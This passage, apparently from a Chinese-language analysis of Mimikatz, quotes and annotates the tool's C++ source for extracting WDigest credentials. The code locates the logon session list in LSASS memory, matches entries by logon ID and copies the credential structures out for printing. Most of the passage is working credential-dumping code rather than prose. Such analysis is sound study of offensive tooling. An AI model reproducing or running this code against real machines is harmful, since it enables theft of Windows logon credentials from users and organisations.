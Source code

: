 ```c++
            l_LogSessList = (PKIWI_WDIGEST_LIST_ENTRY)((PBYTE)l_LogSessList + sizeof(RTL_CRITICAL_SECTION));
        #endif
        aLsassMemory.address = l_LogSessList;
        taille = offsetWDigestPrimary + sizeof(KIWI_GENERIC_PRIMARY_CREDENTIAL);
        if(aLsassMemory.address = kuhl_m_sekurlsa_utils_pFromLinkedListByLuid(&aLsassMemory, FIELD_OFFSET(KIWI_WDIGEST_LIST_ENTRY, LocallyUniqueIdentifier), pData->LogonId))
        {
            if(aLocalMemory.address = LocalAlloc(LPTR, taille))
            {
                if(kull_m_memory_copy(&aLocalMemory, &aLsassMemory, taille))
                    kuhl_m_sekurlsa_genericCredsOutput((PKIWI_GENERIC_PRIMARY_CREDENTIAL) ((PBYTE) aLocalMemory.address + offsetWDigestPrimary), pData, 0);
                LocalFree(aLocalMemory.address);
            }
        }
    } else kprintf(L"KO");
}
```

`kuhl_m_sekurlsa_enum_logon_callback_wdigest()` 函数内部首先调用 `kuhl_m_sekurlsa_utils_search_generic()` 函数来定位 `l_LogSessList` 变量，并将包含凭据信息的 `KIWI_GENERIC_PRIMARY_CREDENTIAL` 相对于 `KIWI_WDIGEST_LIST_ENTRY` 结构的起始偏移量赋值给 `offsetWDigestPrimary`。

然后，遍历整个`l_LogSessList` 链表，并通过 `kuhl_m_sekurlsa_utils_pFromLinkedListByLuid()` 函数对 `l_LogSessList` 中的 `LocallyUniqueIdentifier` 与之前获取到的 `LogonSessionList` 中的登录 ID 进行比较，`kuhl_m_sekurlsa_utils_pFromLinkedListByLuid()` 定义如下。

```cpp
PVOID kuhl_m_sekurlsa_utils_pFromLinkedListByLuid(PKULL_M_MEMORY_ADDRESS pSecurityStruct, ULONG LUIDoffset, PLUID luidToFind)
{
    PVOID resultat = NULL, pStruct;
    KULL_M_MEMORY_ADDRESS data = {&pStruct, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE}, aBuffer = {NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE};

    if(aBuffer.address = LocalAlloc(LPTR, LUIDoffset + sizeof(LUID)))
    {
        // 将 pSecurityStruct 也就是 l_LogSessList 复制到 pStruct 中
        if(kull_m_memory_copy(&data, pSecurityStruct, sizeof(PVOID)))
        {
            data.address = pStruct;
            data.hMemory = pSecurityStruct->hMemory;
            // 如果 pStruct != l_LogSessList
            while(data.address != pSecurityStruct->address)
            {
                // ReadProcessMemory(cLsass.hProcess, pStruct, aBuffer.address, sizeof(KIWI_WDIGEST_LIST_ENTRY), NULL)
                if(kull_m_memory_copy(&aBuffer, &data, LUIDoffset + sizeof(LUID)))
                {
                    if(SecEqualLuid(luidToFind, (PLUID) ((PBYTE)(aBuffer.address) + LUIDoffset)))
                    {
                        resultat = data.address;
                        break;
                    }
                    data.address = ((PLIST_ENTRY) (aBuffer.address))->Flink;
                }
                else break;
            }
        }
        LocalFree(aBuffer.address);
    }
    return resultat;
}
```